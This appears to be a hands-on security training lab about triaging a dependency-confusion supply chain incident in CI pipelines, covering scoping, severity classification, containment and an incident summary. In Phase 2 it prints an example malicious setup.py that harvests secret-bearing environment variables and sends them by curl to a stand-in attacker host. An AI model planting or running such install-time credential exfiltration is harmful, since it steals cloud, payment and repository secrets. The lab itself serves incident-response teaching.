

# Lab 7.2: Supply Chain Incident Triage

<div class="lab-meta">
  <span>Phase 1 ~5 min | Phase 2 ~15 min | Phase 3 ~10 min | Phase 4 ~10 min</span>
  <span class="difficulty advanced">Advanced</span>
  <span>Prerequisites: <a href="../tier-1/1.2-dependency-confusion.md">Lab 1.2</a>, <a href="7.1-detection-rules.md">Lab 7.1</a></span>
</div>

It is 14:47 on a Tuesday. Your pager fires:

> **[CRITICAL] Detection Rule 7100001: Internal package `internal-utils@99.0.0` installed in CI pipeline `build-api-service` 3 hours ago. Source: public PyPI.**

You are the on-call SOC analyst. Three hours have passed since the malicious package was installed. Every minute you spend investigating is a minute the attacker has to deepen their access.

---

## Connect to the Workstation

```bash
./weaklink shell
```

---

### Attack Flow



---

???+ info "Phase 1: UNDERSTAND. The Alert Context"

    **Goal:** Review the alert and establish what you know before investigating.

### Step 1: Read the alert details

```
Alert ID:       WLSOC-2026-0042
Fired at:       2026-04-01 14:47:00 UTC
Rule:           Internal package fetched from public PyPI (Rule 7100001)
Severity:       Critical (auto-classified)
Source:         Proxy log -- Squid
Details:        GET https://pypi.org/packages/internal-utils/internal_utils-99.0.0.tar.gz
                Source IP: 10.100.0.17 (ci-runner-07)
                HTTP 200 -- 185,732 bytes downloaded
First seen:     2026-04-01 11:43:22 UTC  (3+ hours ago)
```

### Step 2: Establish the known facts

| Known | Unknown |
|-------|---------|
| `internal-utils@99.0.0` was downloaded from public PyPI | Who published the malicious package |
| The download happened on `ci-runner-07` | What the malicious package does |
| It happened 3 hours ago | How many pipelines pulled this version |
| The package name matches an internal namespace | What secrets were accessible on the CI runner |
| Version 99.0.0 is anomalously high | Whether artifacts built during the window are compromised |

### Step 3: Set investigation priorities

1. **Scope**. How widespread is the compromise?
2. **Impact**. What was exposed/exfiltrated?
3. **Containment**. How do we stop the bleeding?
4. **Classification**. What severity do we assign?
5. **Communication**. Who needs to know?

---

???+ warning "Phase 2: INVESTIGATE. Scope the Blast Radius"

    **Goal:** Determine every pipeline, secret, artifact, and environment exposed during the compromise window.

### Step 1: Identify all affected pipelines

Query proxy logs for every CI runner that downloaded the malicious package:

| CI Runner | First Seen | Last Seen | Pipeline |
|-----------|-----------|-----------|----------|
| ci-runner-07 (10.100.0.17) | 11:43:22 | 11:43:25 | build-api-service |
| ci-runner-03 (10.100.0.13) | 12:15:41 | 12:15:44 | build-payment-service |
| ci-runner-11 (10.100.0.21) | 13:30:08 | 13:30:11 | build-auth-service |

Three pipelines affected. Compromise window: **11:43 to present** (3+ hours).

### Step 2: Determine what the malicious package does

```bash
# Download without executing
pip download internal-utils==99.0.0 --no-deps --no-build-isolation -d /tmp/analysis/
cd /tmp/analysis/
tar xzf internal_utils-99.0.0.tar.gz
cat internal_utils-99.0.0/setup.py
```

**Example malicious setup.py:**

```python
import os, subprocess, base64, json

def exfiltrate():
    data = {
        "env": {k: v for k, v in os.environ.items()
                if any(s in k.upper() for s in ["KEY", "SECRET", "TOKEN", "PASSWORD", "AWS", "GH_"])},
        "hostname": os.uname().nodename,
    }
    encoded = base64.b64encode(json.dumps(data).encode()).decode()
    subprocess.run(["curl", "-s", f"https://collect.attacker.com/c?d={encoded}"],
                   timeout=5, capture_output=True)

try:
    exfiltrate()
except Exception:
    pass
```

**Finding:** Exfiltrates all environment variables containing KEY, SECRET, TOKEN, PASSWORD, AWS, or GH_ to `collect.attacker.com`.

### Step 3: Identify exposed secrets

| Pipeline | Exposed Secrets |
|----------|----------------|
| build-api-service | `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY`, `DOCKER_REGISTRY_TOKEN`, `SLACK_WEBHOOK_URL` |
| build-payment-service | `STRIPE_SECRET_KEY`, `DATABASE_URL` (contains credentials), `AWS_ACCESS_KEY_ID` |
| build-auth-service | `GH_TOKEN` (repo write access), `JWT_SIGNING_KEY`, `OAUTH_CLIENT_SECRET` |

### Step 4: Identify artifacts built during the window

**Affected artifacts:**

- `api-service:v2.14.3`. pushed to Docker registry at 11:52
- `payment-service:v1.8.7`. pushed to Docker registry at 12:24
- `auth-service:v3.2.1`. pushed to Docker registry at 13:41

### Step 5: Check for deployment to production

**Finding:** `api-service:v2.14.3` was deployed to production at 12:05.

---

!!! success "Checkpoint"
    You should now have a complete blast radius picture: 3 runners, 3 pipelines, 8 secrets, 3 artifacts, 1 deployed to prod. If any scope element is missing, query the corresponding log source before continuing.

---

???+ success "Phase 3: VALIDATE. Classify and Contain"

    **Goal:** Assign severity, document blast radius, and take containment actions.

### Step 1: Classify severity

| Factor | Finding | Score |
|--------|---------|-------|
| **Functional impact** | Production service running compromised artifact | High |
| **Information impact** | AWS keys, Stripe key, GH token, JWT signing key exfiltrated | High |
| **Recoverability** | Secrets can be rotated, but attacker may have used them | Medium |
| **Affected users** | Payment service handles customer PII and financial data | High |

**Severity Classification: SEV-1 (Critical)**

### Step 2: Document the blast radius

```
BLAST RADIUS ASSESSMENT
=======================
Compromise window:    2026-04-01 11:43 to present (3+ hours)
Affected CI runners:  3 (ci-runner-07, ci-runner-03, ci-runner-11)
Affected pipelines:   3 (api-service, payment-service, auth-service)
Affected artifacts:   3 container images
Deployed to prod:     1 (api-service:v2.14.3)
Exfiltrated secrets:  8 credentials across 3 pipelines
Attacker C2:          collect.attacker.com (IP: 198.51.100.42)
```

### Step 3: Immediate containment actions

| Priority | Action | Owner |
|----------|--------|-------|
| P0 | Rotate ALL exposed AWS keys immediately | Platform team |
| P0 | Rotate Stripe secret key | Payment team |
| P0 | Revoke GH_TOKEN and issue new token with reduced scope | Security team |
| P0 | Rotate JWT signing key (will invalidate all sessions) | Auth team |
| P1 | Quarantine affected container images in registry | Platform team |
| P1 | Roll back api-service to last known-good version (v2.14.2) | SRE team |
| P1 | Block `collect.attacker.com` (198.51.100.42) at firewall | Network team |
| P1 | Remove `internal-utils@99.0.0` from pip cache on all runners | Platform team |
| P2 | Fix pip configuration: replace `--extra-index-url` with `--index-url` | DevOps team |
| P2 | Scan AWS CloudTrail for unauthorized API calls using the stolen keys | Security team |

### Step 4: Check for secondary compromise

The attacker had the GH_TOKEN for 3+ hours. Check for repository modifications:

```yaml
index=github sourcetype=github:audit
  actor!="dependabot[bot]" actor!="renovate[bot]"
  earliest="2026-04-01T11:43:00"
  action IN ("git.push", "repo.create", "team.add_member", "org.invite_member")
| table _time, actor, action, repo, details
```

---

??? tip "Phase 4: IMPROVE. Write the Incident Summary"

    **Goal:** Produce the incident summary for management and identify detection improvements.

### Incident summary

```markdown
INCIDENT SUMMARY: Supply Chain Compromise via Dependency Confusion
==================================================================

Incident ID:    INC-2026-0042
Severity:       SEV-1 (Critical)
Status:         Active -- Containment in progress
Commander:      [Your name]
Detection time: 2026-04-01 14:47 UTC
Compromise start: 2026-04-01 11:43 UTC (estimated)
Time to detect: 3 hours 4 minutes

SUMMARY:
A malicious package "internal-utils@99.0.0" was published to public PyPI,
exploiting dependency confusion in our CI/CD pip configuration. Installed by
3 pipelines over 3 hours. Malicious setup.py exfiltrated environment variables
(AWS keys, Stripe API key, GitHub token, JWT signing key) to attacker C2.
One compromised artifact deployed to production.

ROOT CAUSE:
CI pip configuration used --extra-index-url (checks both private and public
PyPI) instead of --index-url (private only).

IMPACT:
- 8 credentials exfiltrated to attacker infrastructure
- 1 compromised container deployed to production for ~3 hours
- Customer data exposure possible via stolen Stripe and AWS credentials

CONTAINMENT ACTIONS:
- All 8 credentials rotated
- Compromised container rolled back
- Attacker C2 blocked at firewall
- pip configuration fixed across all CI runners

NEXT STEPS:
- CloudTrail and Stripe audit for unauthorized access
- Full forensic analysis of CI runners
- Post-incident review scheduled for [date]
```

### Detection improvements

| Gap | Improvement |
|-----|------------|
| 3-hour detection lag | Reduce proxy log ingestion latency; add real-time alerting |
| No pre-install validation | Implement `--require-hashes` in all CI pipelines |
| Broad CI secrets exposure | Least-privilege: each pipeline only has the secrets it needs |
| No artifact provenance | Implement SLSA Level 2+ to prevent compromised artifact deployment |

### Final verification

```bash
weaklink verify 7.2
```

---

## What You Learned

- Time-to-detect is the most critical metric. The 3-hour gap gave the attacker time to exfiltrate credentials and get a compromised artifact into production.
- Blast radius assessment requires querying multiple systems: proxy logs, CI/CD logs, deployment logs, and secret management systems.
- Containment is parallel, not sequential. Secret rotation, artifact quarantine, rollback, and network blocking happen simultaneously.

## Further Reading

- [NIST SP 800-61: Computer Security Incident Handling Guide](https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final)
- [CISA: Supply Chain Compromise Incident Response](https://www.cisa.gov/topics/supply-chain-security)
- [PagerDuty Incident Response Documentation](https://response.pagerduty.com/)
